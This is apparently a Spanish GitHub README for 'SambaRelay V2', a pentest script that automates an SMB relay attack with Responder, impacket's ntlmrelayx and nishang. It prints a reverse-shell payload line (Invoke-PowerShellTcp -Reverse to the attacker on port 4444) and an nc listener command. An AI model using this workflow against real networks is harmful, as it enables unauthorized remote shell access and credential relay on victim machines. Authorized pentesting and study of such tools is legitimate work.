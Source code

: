 
# SambaRelay

Canal de youtube  https://youtube.com/c/Anonimo501

Grupo en Telegram https://t.me/Pen7esting

## Samba Relay

# Vaya a la ultima version mejorada aqui: https://github.com/Anonimo501/SMBRelay

Este script es creado para fines educativos o para hacer auditorias profesionales de pentesting a nivel empresarial, no me hago responsable del mal uso de dicho  script, este script automatiza la modificacion del archivo Responder.conf en los valores SMB = Off y HTTP = Off, locual lo deja a la escucha, tambien descarga automaticamente https://github.com/SecureAuthCorp/impacket y descarga https://github.com/samratashok/nishang en nishang ingresa a nishang/Shells/ copia el archivo y lo renombra cp Invoke-PowerShellTcp.ps1 PS.ps1, al archivo PS.ps1 se le añade una linea al final que es la siguiente  Invoke-PowerShellTcp -Reverse -IPAddress $hacker -Port 4444, se deja a la escucha un server http automaticamente con el siguiente comando python -m SimpleHTTPServer, dejamos nc a la escucha rlwrap nc -nlvp 4444, no es necesario instalar los requerimientos de impacket o nishang ya que el script lo hace automaticamente, tambien crea un archivo llamado targets.txt dentro de /impacket/examples el cual contiene la  ip victima y por ultimo se ejecutal ntlmrelayx.py para lograr el acceso.

Esta Version del script basicamente lo que se le añade es el menu de opciones que nos permite la ejecucion del script nuevamente sin tener que reinstalar todo desde cer0

El script se ejecuto sobre ParrotOS 4.10

## Version del Script
Version 2

![Captura](https://user-images.githubusercontent.com/67207446/120703323-c3810980-c47a-11eb-93d6-3a19caa26600.PNG)


## Uso

git clone https://github.com/Anonimo501/SambaRelay_V2.git

cd SambaRelay_V2/

chmod +x SMB_Relay_v2.sh

./SMB_Relay.sh


# Referencias

SecureAuth Corporation.https://github.com/SecureAuthCorp/impacket
SamratAshok.https://github.com/samratashok/nishang
